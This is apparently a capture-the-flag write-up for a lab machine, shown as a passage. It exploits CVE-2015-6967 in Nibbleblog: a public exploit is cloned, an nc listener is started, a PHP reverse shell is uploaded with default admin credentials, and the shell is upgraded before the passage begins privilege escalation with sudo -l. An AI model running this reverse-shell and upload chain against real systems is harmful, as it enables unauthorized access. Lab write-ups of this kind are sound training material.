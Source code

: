 Searching for vulnerabilities and exploits for this Nibbleblog version using Google, we found the following exploit:
```shell
https://github.com/dix0nym/CVE-2015-6967
```

We can get a reverse shell following these steps and using the following commands:
```shell
# Get the exploit from GitHub
git clone https://github.com/dix0nym/CVE-2015-6967
cd CVE-2015-6967
```

```shell
# Start a nc listener on Kali
nc -lvnp 8080
```

```shell
# Get a PHP reverse shell from Ivan Sincek from revshells.com with Kali IP and port 8080
https://www.revshells.com/

# revshells.com Configuration
Shell name: PHP Ivan Sincek
IP: Our Kali tun0 IP
Port: 8080
Type: nc
Shell: /bin/sh
Encoding: None

# Copy the shell and put it into a file in CVE-2015-6967 folder, name it shell.php
```

```shell
# Use the exploit to upload the php shell
python3 exploit.py --url http://10.129.146.200/nibbleblog/ --username admin --password nibbles --payload shell.php
```

```shell
# Our nc listener will get triggered and grant us shell access as the user nibbler
listening on [any] 8080 ...
ls
connect to [10.10.14.206] from (UNKNOWN) [10.129.146.200] 52964
SOCKET: Shell has connected! PID: 1845
db.xml
image.php

# Now upgrade the shell to interactive
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Our shell will change to
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```
### User Flag
Now we can get the user.txt flag:
```shell
cd ~
cat user.txt
```
# Privilege Escalation
### sudo -l and finding writeable monitor.sh bash script
Using sudo -l we find out that the user nibbler can run monitor.sh as root without password:
```shell
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
```